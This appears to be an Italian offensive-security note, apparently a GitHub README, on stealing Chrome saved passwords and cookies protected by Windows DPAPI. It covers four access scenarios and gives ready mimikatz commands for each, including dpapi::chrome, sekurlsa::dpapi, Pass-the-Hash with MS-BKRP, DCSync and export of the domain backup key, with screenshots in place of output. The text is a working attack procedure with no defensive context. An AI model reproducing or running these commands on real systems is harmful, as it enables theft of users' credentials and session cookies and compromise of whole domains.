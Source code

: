 Esistono diversi metodi per entrare in possesso della MasterKey di un utente.  

**Chrome**  
Chrome si affida a DPAPI per memorizzare cookie e informazioni sui login salvati.  
I percorsi predefiniti sono:  
- **Login Data**: %localappdata%\Google\Chrome\UserData\Default\LoginData  
- **Cookies**: %localappdata%\Google\Chrome\UserData\Default\Cookies > database SQLite con i valori dei cookie  

Gli scenari in cui è possibile estrarre informazioni da cookie e sui login:  
1) esecuzione di codice nel contesto dell'utente vittima  
2) accesso con privilegi amministratore in un computer dove l'utente vittima è già loggato  
3) accesso con privilegi amministratore in un computer dove l'utente vittima NON è ancora loggato  
4) accesso elevato di Dominio  

1) Usando mimikatz con flag _/unprotect_ al comando dpapi che invoca la funzione CryptUnprotectDataAPI.  
Comando: **[mimikatz] dpapi::chrome /in %localappdata%\Google1\Chrome\UserData\Default\Cookie /unprotect**
![image](https://user-images.githubusercontent.com/110602224/200806844-15fe190c-5c4b-4dd7-b560-334c5f83ba7f.png)

2) Usando mimikatz per ottenere la MasterKey usando i comani **sekurlsa::dpapi** o **sekurlsa::msv**.  
Successivamente il comando (sempre in mimikatz) per decriptare: **dpapi::chrome /in:"[CHROME PATH]" /masterkey:"[MASTERKEY]"**
![image](https://user-images.githubusercontent.com/110602224/200808324-e570dbfa-bc3b-460d-a622-7b6a3eb5d152.png)

3) Se l'utente target non è loggato è necessario essere in possesso della password NTLM o della sua hash.  
Comando se si ha la password in chiaro: **dpapi::masterkey /in:[MASTERKEY LOCATION] /sid:[USER SID] /password:[PASSWORD] /protected**  
Se se in è in possesso dell'hash è necessario usare il MS-BKRP(BackupKey Remote Protocol) per recuperare la chiave.  
A tal fine bisogna eseguire un attacco _Pass-the-Hash_ per creare un nuovo processo nel contesto dell'utente.  
![image](https://user-images.githubusercontent.com/110602224/200809310-7aa772b2-d895-4984-9b9d-5b2eea8bdf91.png)

Una volta che il processo è creato si usa il comando seguente per recuperare la MasterKey: **dpapi::masterkey /in:[MASTERKEY] /rpc**  
Successivamente per decriptare: **dpapi::chrome /in:[CHROME PATH]**  
![image](https://user-images.githubusercontent.com/110602224/200810270-c11a022a-38a6-4966-896a-7ebe83e5e3bc.png)

4) Avere modo di effettuare un accesso con privilegi elevati al Dominio da la possibilità di potere eseguire un DCSync sull'utente vittima, di ottenere l'hash della password e di ripetere il punto 3.  
È anche vero che, come descritto sopra, nel Dominio è presente una chiave di backup, immutabile, valida per tutti i client del Dominio, che si usa per recuperare le MasterKey.  
Comando per estrarla: **lsadump::backupkeys /system:[DOMAIN CONTROLLER] /export**  
![image](https://user-images.githubusercontent.com/110602224/200811473-180306cc-6076-4b53-82fc-7de1613d0739.png)

Comando per decriptare la MasterKey dell'utente target: **dpapi::masterkey /in:"[USER MASTERKEY]" /pvk::[DOMAIN BACKUP KEY]**  
![image](https://user-images.githubusercontent.com/110602224/200811965-e9a45fe7-4d0c-47fc-911b-72472ef34df7.png)
